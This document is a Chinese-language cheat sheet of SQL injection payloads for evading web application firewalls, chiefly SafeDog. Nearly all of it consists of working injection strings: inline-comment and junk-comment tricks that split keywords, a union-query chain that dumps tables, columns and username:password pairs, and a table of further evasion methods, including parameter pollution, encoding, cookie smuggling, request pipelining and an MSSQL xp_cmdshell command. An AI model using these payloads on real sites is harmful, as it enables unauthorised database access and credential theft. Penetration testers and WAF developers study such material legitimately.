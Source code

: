 最新版\
1、安全狗and的绕过（防止and和or的注入）\
将and修改为/*!12345and*/ ps:12345是任意的5位数字\
通过bp进行拦截，发送到intruder模块，进行爆破找特征值 返回结果正常即是可以被正常绕过\
4-6位都可以

2、安全狗order by的绕过\
order by一起出现会引发安全狗警告，要在order by之间添加一些字符\
order /*//%$*/ by 1 -- 1

3、安全狗select　union的绕过（防止联合查询）\
select和union在一起的时候会触发\
跟order by原理相同，不过需要我们用bp进行fuzz\
?id=-2' union /*/$%^*/ select 1,2,3 -- 1

4、查询数据的绕过\
database()的绕过：\
database和()放在一起的时候会触发waf\
在两者之间添加干扰符即可\
?id=-2' union /*/$%^*/ select 1,database/*////*/(),3 -- 1\
查询表的绕过：\
第一个绕过点：\
information_schema.tables\
waf会对tables进行拦截，想绕过需改成information_schema./*!tables*/\
第二个绕过点：\
from和information_schema./*!tables*/当这两个放在一起的时候会触发waf，这个时候要对from和information.schema./*!tables*/之间进行处理了\
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a\
information_schema./*!tables*/ -- 1
绕过过程：首先在union和select之间放干扰符号，然后在from和information_schema之间放 --+以及正确的干扰符，然后通过%0a进行换行，最后对talbe进行内联\
但是还要通过where去指定对应的数据库\
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a\
information_schema./*!tables*/ where table_name='security' -- 1\
但是information_schema和where出现在一起需要在中间添加干扰符\
?id=-2' union /*/$%^*/ select 1,group_concat(table_name),3 from --+/*%/ %0a\
information_schema./*!tables*/ /*////*/\
where table_schema='security' -- 1  进行fuzz测试\
获取security对应表下的所有列名：\
?id=-2' union /*/$%^*/ select 1,group_concat(column_name),3 from --+/*%/ %0a\
information_schema./*!columns*/ /*////*/\
where table_schema='security' /*!12441and*/ table_name='users' -- 1\
查询数据的绕过：\
?id=-2' union /*/$%^*/ select 1,group_concat(username,0x3a,password),3 from /*////*/ users -- +

---

| 方法                                      | payload                                                                                                                                                                                                                                                                                                                                                                  |
|-------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 编码                                      | 1、进行url编码（少数waf不会进行URL解码,部分waf进行一次url解码==>可对payload进行二次url编码）<br>2、Unicode编码：单引号 = %u0027、%u02b9、%u02bc<br>3、部分十六进制编码：adminuser = 0x61646D696E75736572<br>4、SQL编码：unicode、HEX、URL、ascll、base64等<br>5、XSS编码：HTML、URL、ASCII、JS编码、base64等                                                                           |
| 大小写变换                                 | select=SELecT<br>关键字替换<br>And = &&<br>Or = \|\|<br>等于号 = like （或使用’<’ 和 ‘>’ 进行判断）<br>if(a,b,c) = case when(A) then B else C end<br>substr(str,1,1) = substr (str) from 1 for 1<br>limit 1,1 = limit 1 offset 1<br>Union select 1,2 = union select * from ((select 1)A join (select 2)B;<br>hex()、bin() = ascii()<br>sleep() = benchmark()<br>concat_ws() = group_concat()<br>mid()、substr() = substring()<br>@@user = user()<br>@@datadir = datadir() |
| 特殊字符替换（空格或注释绕过）               | sqlserver中：/**/、/\*|%23--%23|\*/ <br>mysql中：%0a、%0a/**/、/\*/\!*//、#A%0a                                                                                                                                                                                                                                                                                                  |
| 特殊字符重写绕过                           | selselectect                                                                                                                                                                                                                                                                                                                                                             |
| 多请求拆分绕过                             | ?a=[inputa]&b=[inputb]  ===》(参数拼接)  and a=[inputa] and b=[inputb]                                                                                                                                                                                                                                                                                                   |
| 参数放Cookie里面进行绕过                    | $_REQUEST（获取参数，会获取GET POST COOKIE）===>  若未检测cookie，我们可以放cookie里面                                                                                                                                                                                                                                                                                     |
| 使用白名单绕过                             | admin dede install等目录特殊目录在白名单内<br>URL/xxx.php?id=1 union select …… ===》<br>1、URL/xxx.php/admin?id=1 union select……<br>2、URL/admin/..\xxx.php?id=1 union select……                                                                                                                                                                                       |
| 内联注释绕过                               | id=1 and 1=1 ===》  id=1/\*!and\*/1=1                                                                                                                                                                                                                                                                                                                                    |
| 参数重写绕过                               | URL/xx.php?id=1 union select  ===》<br>URL/xx.php?id=1&id=union&id=select&id=……&id=                                                                                                                                                                                                                                                                                      |
| 特殊字符拼接                               | mssql中，函数里面可以用+来拼接 ?id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')                                                                                                                                                                                                                                                                                     |
| 云waf                                     | ===》找真实IP<br>http协议绕过<br>Content-Type绕过：application/x-www-form-urlencoded è multipart/form-data<br>请求方式绕过：更换请求方法<br>多Content-Disposition绕过：包含多个Content-Disposition时，中间件与waf取值不同<br>keep-alive（Pipeline）绕过：手动设置Connection:keep-alive（未断开），然后在http请求报文中构造多个请求，将恶意代码隐藏在第n个请求中，从而绕过waf<br>修改编码方式：Charset=xxx进行绕过 |
| Waf检测限制绕过                          | 参数溢出<br>缓冲区溢出：<br>UnIoN SeLeCT ===》 and (select 1)=(Select 0xA*99999) UnIoN SeLeCT and 1=1 ===》 and 1=1 and 99…99999 //此处省略N多个9同网段/ssrf绕过                                                                                                                                                                                                           |
                                    

---

1=1绕过\
'and 1=1-- -被拦截\
&符号可以绕\
'%261-- -\
'%26true-- -\
'%260-- -\
'%26false-- -\
xor可以绕\
'Xor 1-- -\
'Xor true-- -

'or length(database()=4)-- -会被ban，这样绕：\
'%26(length(database/**/())=4)-- -\
'%26(ascii(@@version)=53)-- -\
1'or -1=-1-- -\
1'or -0=-0-- -

内联注释\
1'or /*!1=1*/-- -\
或者简单粗暴点的 或者简单粗暴点的 直接绕过and和or：\
/*!11440OR*/\
/*!11440AND*/



order by绕过\
%23%0a绕过\
order%23%0aby 3\
内联注释加注释绕过\
1'/*!order /*!/*/**/by*/4-- -\
1'/*!order /*/*%/**/by*/4-- -\
1'/*!order /*!/*/**//**/by*/4-- -\
1'/*!order /*!/*/**//*/**/by*/4-- -\
同样类似上面绕过and方法\
/*!11440order*/



union select绕过\
利用内联注释和注释的混淆绕过\
1'/*!union/*!/*/**/*/select/**/1,2,'password'-- -\
/*!11440union*/\
/*!select/*!/*/**/*/


系统函数绕过\
单独的括号和函数名都不会检测，分开函数名和括号：\
version () #直接空格\
user%0a() #这个地方%0a~%20有很多，类似绕过空格\
database/**/() #注释符\
user/*!*/() #内敛注释


函数名绕过\
/*!extractvalue/*!/*/**/*/\
/*!updatexml/*!/*/**/*/

联合注入绕过方式\
这里使用mysql自带的正则函数(regexp)

select * from company_info where name like '桑尼';  //查询name等于桑尼的数据\
select * from company_info where name regexp '桑尼'; //查询结果中name包含桑尼的数据

获取详细信息\
尝试获取数据库名、版本，因database()被识别被拦截

-1' regexp "%0A%23" /*!11444union*/ %0A /*!11444select*/ 1,database(/*!11444*/),version(/*!11444*/) %23

注入出表名\
-1' union /*!--+/*%0aselect/*!1,2,*/ group_concat(schema_name) /*!from*/

/*!--+/*%0ainformation_schema./*!schemata*/ --+
